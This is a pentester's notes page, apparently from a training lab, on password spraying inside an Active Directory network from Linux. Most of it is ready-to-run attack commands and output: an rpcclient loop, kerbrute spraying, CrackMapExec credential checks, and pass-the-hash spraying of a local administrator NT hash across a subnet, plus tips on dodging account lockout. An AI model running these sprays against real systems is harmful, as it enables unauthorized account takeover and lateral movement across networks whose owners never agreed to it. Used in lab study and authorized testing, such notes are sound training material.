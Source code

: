 ```yaml
---
description: >-
  This page is for password spraying when we have access to a Linux host inside
  the internal network.
---
```


# Internal Spraying - From Linux

***

### Internal Password Spraying from a Linux Host

Once we have a wordlist it's time to execute an attack. There are many tools we can use to perform a password spraying attack as mentioned in previous sections. This page covers the best options in my opinion.



### Rpcclient

**Using a Bash one-liner for the Attack**

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```



### Kerbrute

```shell-session
attacker@kali$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
2022/02/17 22:57:12 >  Done! Tested 57 logins (1 successes) in 0.172 seconds\
```

###

### CrackMapExec

We can filter the Logon Failures as shown in the command below.

```shell-session
attacker@kali$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

###

### Validating Credentials with CrackMapExec

Once we get hits with our password spraying attack, we can use CrackMapExec to validate the credentials againt a Domain Controller.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
</strong>
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
</code></pre>



### Local Adiminstrator Password Reuse

If we obtain administrative access and the NTLM password hash (or cleartext password) of a local admin account, we should attempt this across the network. Password reuse along with common formats is widespread. For example: If the admin password found isn't working it's worth attempting a similar password. _**Example: $desktop%admin123 might be $server%@admin123**_



Sometimes we can retrieve the NTLM hash for the local admin from the SAM (Security Account Manager) Database. In this instance, we can spray the NT hash across the entire subnet (or multiple subnets).

_<mark style="color:red;">**NOTE:**</mark>_ The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.



### **Local Admin Spraying with CrackMapExec**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
</strong>
SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
</code></pre>
